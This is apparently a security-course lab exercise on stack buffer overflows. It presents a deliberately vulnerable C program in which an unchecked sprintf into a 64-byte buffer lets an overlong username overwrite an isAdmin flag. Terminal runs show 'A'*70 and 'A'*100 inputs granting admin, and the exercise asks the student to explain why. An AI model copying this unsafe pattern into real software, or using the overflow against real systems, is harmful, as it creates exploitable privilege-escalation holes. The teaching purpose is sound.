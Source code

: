 # Buffer overflow - overwrite variables on the stack

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change the function flow, which enables us to gain "admin" privileges.


## Vulnerable program

We have the following program:

challenge2.c:
```
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge2`


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge2# ./challenge2 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

Lets execute it with the correct password:

```
root@hlUbuntu32aslr:~/challenges/challenge2# ./challenge2 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge2# ./challenge2 `python -c 'print "A"*70'` root
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge2# ./challenge2 `python -c 'print "A"*100'` root
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

### Question 1: Why isAdmin = TRUE?

If you enter the valid password (ourteacheristehbest), the program returns "You ARE admin!"
If you enter an overlong password (70x"A"), the program returns "You ARE admin!" too.
Explain why you got admin privs when smashing the stack.
